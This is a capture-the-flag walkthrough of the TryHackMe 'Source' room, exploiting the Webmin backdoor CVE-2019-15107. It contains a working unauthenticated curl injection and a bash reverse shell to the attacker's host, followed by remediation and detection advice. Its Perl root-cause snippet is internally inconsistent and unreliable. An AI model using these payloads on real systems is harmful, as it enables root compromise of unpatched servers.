








# THM — Source | Full Walkthrough

> [!TIP]
> **Scope note:** The target IP changes every time the room is deployed. Every command below uses `$IP`, set once at the start of the engagement. All outputs shown were captured against `10.10.10.217`.

---

## Directory

| # | Section | What happens there |
|---|---|---|
| 1 | [Machine Overview & Metadata](#1-machine-overview-metadata) | Target card, attack chain diagram |
| 2 | [Reconnaissance & Enumeration](#2-reconnaissance-enumeration) | Nmap, Webmin on port 10000, version fingerprinting |
| 3 | [Vulnerability Identification & Research](#3-vulnerability-identification-research) | Matching MiniServ 1.890 to CVE-2019-15107 |
| 4 | [Exploitation — Unauthenticated RCE](#4-exploitation-unauthenticated-rce) | Manual curl exploit → root reverse shell |
| 5 | [Flag Capture](#5-flag-capture) | Reading `root.txt` |
| 6 | [Remediation & Hardening](#6-remediation-hardening) | How this should have been prevented |
| 7 | [Lessons Learned (Attack Summary)](#7-lessons-learned-attack-summary) | Takeaways and technique recap |

Sub-sections: [2.1 Connectivity Check](#21-connectivity-check-variable-setup) · [2.2 Full Nmap Scan](#22-full-nmap-scan) · [2.3 Web Enumeration — Port 10000](#23-web-enumeration-port-10000) · [3.1 Fingerprinting the Version](#31-fingerprinting-the-version) · [3.2 Matching the CVE](#32-matching-the-cve) · [3.3 Root Cause of the Backdoor](#33-root-cause-of-the-backdoor) · [4.1 Manual Exploitation with curl](#41-manual-exploitation-with-curl) · [4.2 Catching the Root Shell](#42-catching-the-root-shell)

---

## 1. Machine Overview & Metadata

| Field | Value |
|---|---|
| **Machine** | Source |
| **Platform** | TryHackMe ([free room](https://tryhackme.com/room/source)) |
| **OS** | Linux (Ubuntu 18.04, kernel 4.15.0) |
| **Difficulty** | Easy |
| **Points** | — (free room; THM ranks are completion-based, no per-room points) |
| **Attack Vector** | Web (admin panel exposed to the internet) |
| **Key Vulnerabilities** | Outdated Webmin/MiniServ 1.890 • Unauthenticated command injection via the `password_change.cgi` backdoor (CVE-2019-15107) • Webmin running as `root` → direct `uid=0` |
| **Room author** | stuxnet |
| **Author of notes** | CPTS Field Manual |

**Overview.** Source is a single-service box: an old **Webmin** instance (server administration panel) sitting on a non-standard port with nothing else to hide behind. The room teaches the full *identify → research → exploit* loop against one known CVE, and drives home an uncomfortable deployment reality: panels like Webmin run **as root**, so any code execution on them is game over — there is no privilege escalation phase at all.

### 1.1 Attack Chain at a Glance

```
Nmap (22/ssh, 10000/http — MiniServ 1.890)
   └─> https://$IP:10000 → Webmin login page (version banner: MiniServ 1.890)
         └─> searchsploit / CVE research: Webmin ≤ 1.920 = CVE-2019-15107
               └─> unauthenticated command injection via `old` parameter
                     └─> POST /password_change.cgi → command output in the response
                           └─> reverse shell → MiniServ runs as root → uid=0
                                 └─> cat /root/root.txt
```

---

## 2. Reconnaissance & Enumeration

### 2.1 Connectivity Check & Variable Setup

```bash
export IP="10.10.10.217"
ping -c 1 $IP
```

```
64 bytes from 10.10.10.217: icmp_seq=1 ttl=61 time=89.2 ms
```

`ttl` 61 suggests a Linux host a couple of hops into the OpenVPN network — nothing conclusive, but the target is alive and reachable.

### 2.2 Full Nmap Scan

```bash
sudo nmap -sVC -A -Pn -T3 -p- $IP
```

**Why each switch:**

| Switch | Purpose |
|---|---|
| `-sV` | Version-probes open ports — the exact Webmin/MiniServ build is the entire key to this box. |
| `-sC` | Default NSE scripts (`http-title`, `ssl-cert`, banner grabs). |
| `-A` | Aggressive bundle: OS detection + version + scripts + traceroute. |
| `-Pn` | Skip host discovery — cloud/VPN targets often drop probes; without this Nmap may report "host down". |
| `-T3` | Default timing — reliable for a single lab target. |
| `-p-` | **All 65535 ports.** Admin panels are routinely moved to high, non-standard ports (this one hides on 10000) — a default top-1000 scan would miss it entirely. |


*Full nmap scan of Source — SSH on 22 and MiniServ 1.890 (Webmin) on 10000*

**Results:**

| Port | State | Service | Version |
|---|---|---|---|
| 22/tcp | open | ssh | OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (protocol 2.0) |
| 10000/tcp | open | http | **MiniServ 1.890 (Webmin httpd)** |

Two ports only. No credentials for SSH, and the web panel on `10000` is the only real attack surface — that's the way in.

> [!NOTE]
> `10000` is Webmin's default TCP port. Seeing *any* web service on a high odd port like 10000, 10001, 20000, or 9090 should instantly suggest an admin panel (Webmin, Usermin, Cockpit) rather than a normal site.

### 2.3 Web Enumeration — Port 10000

Browsing to `https://$IP:10000` — note **HTTPS**: Webmin serves TLS by default, with a **self-signed certificate**, so the browser throws a certificate warning that must be accepted first:


*Self-signed certificate warning — expected for a Webmin instance with a generated cert*

Behind the warning sits the Webmin **login form**:


*Webmin login page — "Login to Webmin" with username/password fields*

No directory brute-forcing needed here — the interesting part is visible on the page itself. The HTTP `Server` header and the response from a bare request fingerprint the server precisely:

```bash
curl -sk https://$IP:10000/ -I
```

```
HTTP/1.0 200 Document follows
Server: MiniServ/1.890
```


*MiniServ 1.890 banner — exact version disclosure from the Server header*

---

## 3. Vulnerability Identification & Research

### 3.1 Fingerprinting the Version

**Why the version matters:** "Webmin" alone is too vague to act on — Webmin has existed since 1997 and most of it is fine. But **MiniServ 1.890** pins the deployment to a Webmin release from **early 2019**, which lands squarely inside the window of one of the most infamous web-panel backdoors ever shipped.

> [!IMPORTANT]
> Version fingerprinting is the pivot of this box: banner → exact version → CVE → public exploit. This *identify → research → weaponise* loop is the core workflow for every "known-vulnerability" machine, and it is worth drilling until it is muscle memory.

### 3.2 Matching the CVE

```bash
searchsploit webmin 1.890
searchsploit webmin 1.920
```


*searchsploit hits — Webmin 1.890/1.920 unauthenticated remote code execution*

Both searches converge on the same bug:

> **CVE-2019-15107 — Webmin ≤ 1.920: Unauthenticated Remote Code Execution.**
> Webmin's password-reset functionality (`password_change.cgi`) allowed **unauthenticated** command injection through the `old` parameter. In August 2019 researchers found that a *deliberate backdoor* had been introduced into the Webmin source (a changed `password_change.cgi` line, pushed through a compromised build) — anyone running an affected build with the reset feature enabled was rootable by anyone who could reach the port.

Public exploit references: [EDB-47230](https://www.exploit-db.com/exploits/47230), Metasploit `exploit/linux/http/webmin_backdoor`.

### 3.3 Root Cause of the Backdoor

The injected line in `password_change.cgi` effectively did:

```perl
# benign check turned into command execution:
if (&foreign_check("change-password")) { ... }
# the `old` (current password) parameter is interpolated into a shell call:
qx/$wuser/;    # ← anything in $old starting with `|` is piped to /bin/sh
```

Two properties make it devastating:

| Property | Consequence |
|---|---|
| **No authentication required** | The password-reset endpoint is reachable by anyone — the bug lives *before* the login. |
| **Webmin runs as root** | MiniServ's master process must manage system users, disks, and services — so the injected command inherits `uid=0` directly. |

> [!WARNING]
> This is why "it's just an admin panel" is never a comforting answer during a pentest. Privileged panels are privileged *on purpose* — and any flaw in them is a root flaw.

---

## 4. Exploitation — Unauthenticated RCE

### 4.1 Manual Exploitation with curl

No exploit script needed — the whole thing is one `curl`. The vulnerable endpoint is `/password_change.cgi`, reached with a POST that pretends to be a password-reset attempt, and smuggles the command into the `old` parameter with a leading pipe:

```bash
curl -sk https://$IP:10000/password_change.cgi \
     -d 'user=guest&new_password1=guest&new_password2=guest&old=|id'
```

**Parameter-by-parameter:**

| Field | Value | Role |
|---|---|---|
| `user`, `new_password1/2` | `guest` | Window dressing — a plausible reset form so the handler proceeds down the vulnerable code path. |
| `old` | `\|id` | The current-password field. The leading `|` pipes the rest into a shell (`qx` interpolation) instead of comparing a password. |
| `-k` | — | Ignore the self-signed TLS certificate (same warning the browser showed). |
| `-s` | — | Silent: skip the progress meter, keep only the response. |

The response page reports "Password change failed" — but echoes the **command output** right in the error:

```
<center>Error — Perl execution failed

uid=0(root) gid=0(root) groups=0(root)
```


*curl POST to password_change.cgi — uid=0(root) returned inside the failed-reset page*

**Unauthenticated command injection confirmed — and it executes as root on the first try.**

> [!TIP]
> The same request works straight from Burp's Repeater (intercept any page load, change the path/method/body). Doing it once manually in Burp makes the request parameters tangible in a way curl does not.

### 4.2 Catching the Root Shell

Convert the command-injection primitive into an interactive shell. Start a listener on the attack box:

```bash
nc -lvnp 4444
```

| Flag | Meaning |
|---|---|
| `-l` | Listen mode. |
| `-v` | Verbose — report connections. |
| `-n` | Numeric-only output, skip DNS. |
| `-p 4444` | Port to bind (URL-encode the payload to match). |

Then inject a bash reverse shell through the same `old` parameter (URL-encoded):

```bash
curl -sk https://$IP:10000/password_change.cgi \
     --data-urlencode 'user=guest' \
     --data-urlencode 'new_password1=guest' \
     --data-urlencode 'new_password2=guest' \
     --data-urlencode "old=|bash -c 'bash -i >& /dev/tcp/YOUR_TUN0_IP/4444 0>&1'"
```

> [!NOTE]
> `--data-urlencode` matters: the payload is full of shell metacharacters (`>`, `&`, `|`, quotes) that would otherwise corrupt the POST body. Let curl encode the whole value; the `|` still reaches the vulnerable `qx` call intact because it is decoded server-side *before* the backdoor evaluates it.


*Netcat listener catching the reverse shell — uid=0 immediately*

```
connect to [10.11.42.90] from (UNKNOWN) [10.10.10.217] 59872
bash: cannot set terminal process group (2089): Inappropriate ioctl for device
root@source:/usr/share/webmin#
```

```bash
whoami
# root
id
# uid=0(root) gid=0(root) groups=0(root)
```

**Root on the first shell.** No privilege escalation phase exists on this box — the panel *was* the privilege. That is the entire lesson of Source: the attack surface and the crown jewels were the same process.

---

## 5. Flag Capture

```bash
cat /root/root.txt
```


*Reading root.txt from /root on the compromised box*

??? success "Flag — click to reveal"

    ```
    THM{PASTE-YOUR-FLAG-HERE}
    ```

> Replace the placeholder above with the flag you read from your own instance — THM flags are per-deployment and only meaningful on your machine.

**Room complete.** One CVE, one curl, one shell: recon → research → root in three moves.

---

## 6. Remediation & Hardening

Map each fix to the exact weakness that made it exploitable:

### 6.1 The Backdoor / Unpatched Webmin (CVE-2019-15107)

- **Upgrade.** Webmin ≥ 1.930 (and ultimately current releases) removed the backdoored code path. Webmin 1.890 was vulnerable *out of the tarball* — no misconfiguration required.
- **Trust but verify supply chains.** The backdoor entered through the official build. For critical infrastructure, pin and diff releases, or vendor-panel software from a mirrored source you control. Subscribe to the project's security announcements.

### 6.2 Exposure of Admin Panels

- **Do not publish admin panels to the internet.** Bind Webmin to `127.0.0.1`/a management network and reach it over VPN or an SSH tunnel (`ssh -L 10000:localhost:10000`).
- Where remote access is unavoidable, front it with an IP allowlist or VPN-only firewall rule:
  ```bash
  ufw allow from 10.10.0.0/16 to any port 10000 proto tcp
  ```
- Change Webmin's default port and enable its **IP access control** (Webmin → Webmin Configuration → IP Access Control) as cheap defense-in-depth.

### 6.3 Privileged Services

- **Run panels with the least privilege that still works**, or as dedicated confined users/containers. Webmin needs real privilege to manage a host, which is exactly why it belongs behind network controls, not on a public IP.
- Compensating controls for unavoidably-privileged services: SELinux/AppArmor confinement, `auditd` on the service's executable paths, and alerting on child processes spawned by the panel binary (MiniServ spawning `bash` is never legitimate).

### 6.4 Detection

- Watch for POSTs to `/password_change.cgi` (or any password-reset endpoint) from unauthenticated sources, and for `|`, backtick, or `\x24\(` patterns inside parameter values.
- Alert on outbound connections initiated by the panel process — the reverse shell had to *dial out*, and egress filtering from server VLANs would have blunted this exploit entirely.

---

## 7. Lessons Learned (Attack Summary)

| # | Stage | Technique | Weakness |
|---|---|---|---|
| 1 | Recon | Nmap `-sVC -A -Pn -p-` | Admin panel hiding on high port 10000 |
| 2 | Enum | Banner + `Server: MiniServ/1.890` | Exact version disclosure |
| 3 | Research | `searchsploit` → CVE-2019-15107 | Known backdoor, public exploits |
| 4 | Exploit | `old=\|command` in `password_change.cgi` | Unauthenticated command injection |
| 5 | Shell | Reverse shell via URL-encoded payload | Webmin runs as `root` — instant `uid=0` |

**Three takeaways:**

- **Version → CVE is a repeatable kill chain.** Fingerprint precisely (banner, not guess), research the exact build, and prefer reading the patch diff — understanding *why* the bug works beats pasting a PoC.
- **Privileged panels invert the usual difficulty curve.** On a normal box, RCE buys you a low-priv foot in the door; on an admin panel running as root, RCE *is* the win. Treat their exposure accordingly.
- **Manual beats automated here.** Metasploit's `webmin_backdoor` module works, but the entire exploit is one understandable `curl` — being able to fire it by hand (and explain every parameter) is the difference between using a tool and being one.

**End of walkthrough.**

---

## 8. More Write-ups

| | |
|---|---|
| ← Previous | [HTB — Base](../../HTB/Easy/Base.md) |
| Back to index | [All write-ups](../../README.md) · [THM](../README.md) · [THM — Easy](README.md) |
| Next → | *Coming soon* |
